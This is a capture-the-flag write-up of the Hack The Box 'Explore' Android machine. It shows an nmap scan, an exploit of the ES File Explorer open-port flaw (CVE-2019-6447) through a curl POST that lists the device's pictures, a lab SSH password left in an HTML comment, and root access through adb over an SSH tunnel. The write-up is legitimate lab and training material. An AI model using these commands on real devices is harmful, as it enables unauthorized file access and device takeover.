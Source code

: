 ![](explore_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></img></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.247 explore.htb

**nmap scan:**
```bash
PORT      STATE SERVICE VERSION
2222/tcp  open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
34153/tcp open  unknown
42135/tcp open  http    ES File Explorer Name Response httpd
|_http-server-header: ES Name Response Server
|_http-title: Site doesn't have a title (text/html).
59777/tcp open  http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
```

# Foothold

## ES File Explorer Open Port Vulnerability

**[CVE-2019–6447](https://nvd.nist.gov/vuln/detail/CVE-2019-6447):** The ES File Explorer File Manager application through 4.1.9.7.4 for Android allows remote attackers to read arbitrary files or execute applications via TCP port 59777 requests on the local Wi-Fi network. This TCP port remains open after the ES application has been launched once, and responds to unauthenticated application/json data over HTTP.

* Exploit PoC: https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
* [Analysis of ES File Explorer Security Vulnerability(CVE-2019–6447)](https://medium.com/@knownsec404team/analysis-of-es-file-explorer-security-vulnerability-cve-2019-6447-7f34407ed566)

```bash
python es_poc.py --cmd getDeviceInfo --ip 10.10.10.247
```

![](screenshots/es-poc.png)

while exploring ES File Explorer server commands found an interesting file with `listPics` 

![](screenshots/creds-in-img.png)

this PoC script only sending POST request with json data to the server with commands that server can execute, we can simply do this with curl. *demonstrated in the [PoC](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln)*

```bash
❯ curl --header "Content-Type: application/json" --request POST --data '{"command":"listPics"}' http://10.10.10.247:59777
[
{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)", },
]
```

![](dump/creds.jpg)
<!--kristi:Kr1sT!5h@Rp3xPl0r3!-->

and get the ssh creds.

# Privesc

## `adb` Root

Device is running adb server
```bash
:/sdcard $ ss -lntp
State       Recv-Q Send-Q Local Address:Port               Peer Address:Port
LISTEN      0      4            *:5555                     *:*
```

It is listening on all networks but somehow it is not working remotely.

Using ssh tunnel to forward port and run adb to get root.

![](screenshots/adb-root.png)

root flag found in `/data`
```bash
x86_64:/ # find / -type f -name root.txt 2>/dev/null
/data/root.txt
```